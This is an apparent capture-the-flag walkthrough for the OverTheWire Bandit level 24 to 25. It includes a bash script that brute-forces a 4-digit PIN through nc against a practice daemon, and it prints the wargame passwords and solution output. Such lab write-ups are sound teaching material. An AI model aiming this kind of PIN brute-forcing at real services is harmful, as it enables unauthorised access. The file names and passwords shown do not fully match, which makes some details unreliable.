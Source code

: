 # OverTheWire Wargames: Bandit Level 25 Walkthrough
***https://medium.com/@anshumansingh_71873/overthewire-wargames-c5568fe4b4d7***

![image](https://github.com/user-attachments/assets/5b51c077-19e9-44a6-aa69-3a5adec14279)

## Level Overview
***Bandit Level 25:** https://overthewire.org/wargames/bandit/bandit25.html*

***Goal:** Interact with a daemon running on port `30002`, providing the password for `bandit24` and a secret 4-digit PIN code. Brute-force all possible 4-digit combinations (0000–9999) to find the correct code.*

***SSH:** ssh bandit24@bandit.labs.overthewire.org -p 2220*

***Server:** bandit.labs.overthewire.org*

***Port:** 2220*

***Username:** bandit24*

***Password:** gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8*

![image](https://github.com/user-attachments/assets/81e39eb2-bdb7-4883-a972-b7e5325e6332)

## Solution
1. **Connect to the Daemon:**
   
Begin by testing the connection to the daemon running on the port `30002` using `nc localhost 30002`

The daemon will prompt you for the password and a 4-digit PIN. You can manually test this to understand the interaction flow.

![image](https://github.com/user-attachments/assets/0e7c6ec0-fa78-4b77-8d7e-94f989eec2ce)

2. **Write a Script to Automate Brute-Forcing:**
Since there are 10,000 possible combinations (0000–9999), create a script to brute-force the pin code. Use a for loop to iterate through all possible combinations.

- **Sample Script:**

```bash
#!/bin/bash

for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```

- Save this script as `bruteforce.sh` and make it executable:
  
```bash
bandit24@bandit:/tmp/tmp.3YQNHtW1Uu$ chmod +x brute_force_pin.sh
```

![image](https://github.com/user-attachments/assets/912b64a8-6021-40c4-80f6-449c833479ff)

3. **Run the Script:**
   
Execute the script and monitor its output to identify when the correct PIN code is found:

![image](https://github.com/user-attachments/assets/2baf075d-7986-4fc4-83c4-0f3ade249f5c)

4. **Identify the Correct PIN and Retrieve the Password:**
   
When the correct PIN is sent, the daemon will respond with the password for `bandit25`. Look for the output that differs from the others, as it will display the next password.

```bash
bandit24@bandit:/tmp/tmp.qn2mz5CVQV$ cat result.txt 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
.
.
.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:/tmp/tmp.qn2mz5CVQV$
```
